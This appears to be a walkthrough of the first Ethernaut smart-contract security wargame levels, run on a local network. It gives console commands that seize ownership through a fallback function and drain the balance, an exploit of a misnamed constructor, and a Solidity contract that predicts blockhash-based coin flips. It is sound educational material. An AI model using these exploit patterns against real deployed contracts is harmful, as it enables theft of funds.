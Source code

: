 # Ethernaut

## Setup

Install and run locally, since the version on https://ethernaut.openzeppelin.com is in read-only mode

```sh
# Install nvm

git clone https://github.com/OpenZeppelin/ethernaut.git
cd ethernaut

nvm install # Use the version specified in .nvmrc
nvm use
npm install --global yarn
yarn install

# Launch a local network (in a separate shell) with `yarn network`
# Import one of the private keys into MetaMask

# Verify ACTIVE_NETWORK = NETWORKS.LOCAL in client/src/constants.js
yarn deploy:contracts
# It may be necessary to explicitly change http://localhost to http://127.0.0.1 in client/src/constants.js
# (Most /etc/hosts include an ipv6 entry for localhost which can apparently cause problems)
yarn start:ethernaut
```

## 00 Hello Ethernaut

```js
await contract.info()
await contract.info1()
await contract.info2("hello")

// Can tell infoNum() returns a uint8 from contract.abi
(await contract.infoNum()).toString()

await contract.info42()
await contract.theMethodName()
await contract.method7123949()
await contract.password()
await contract.authenticate("ethernaut0")
```

## 01 Fallback

```js
(await contract.contributions(await contract.owner())).toString()
await contract.contribute({value: 1})
(await contract.contributions(player)).toString()
await sendTransaction({to: contract.address, from: player, value: 1})
await contract.owner() == player
await contract.withdraw()
await getBalance(contract.address) == 0
```

## 02 Fallout

```js
// The Fal1out (sp) function is not a constructor
await contract.owner()
await contract.Fal1out()
await contract.owner() == player
```

## 03 Coin Flip

Create a Hardhat project

```sh
mkdir 03-coin-flip
cd 03-coin-flip
npm init
npm install -D hardhat
npx hardhat # Create a JavaScript project
```

With the following contract

```sol
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public target;

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

Compile with `npx hardhat compile`

Create a deploy/execute script (as scripts/deploy.js)

```js
const hre = require("hardhat");

async function main() {
  const target = "<target contract address>";
  const contract = await hre.ethers.deployContract("CoinFlipAttack", [target]);
  await contract.waitForDeployment();
  console.log(`Contract address: ${await contract.getAddress()}`);

  for (let i=0; i<10; i++) {
    (await contract.attack()).wait();
    console.log(`Attack ${i+1} complete`);
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

Include the local network in hardhat.config.js

```js
module.exports = {
  // ...
  networks: {
    ethernaut: {
      url: "http://127.0.0.1:8545",
      chainId: 1337,
      accounts: ["<private key>"]
    }
  }
}
```

Deploy/execute the contract with `npx hardhat run scripts/deploy.js --network ethernaut`

Can verify with `await contract.consecutiveWins() == 10` in the Ethernaut Javascript console

Note that when submitting the instance in the Ethernaut interface will need to update the nonce used by MetaMask since transactions occurred using Hardhat.  Enable this for the account in Settings, Advanced, Customize transaction nonce.
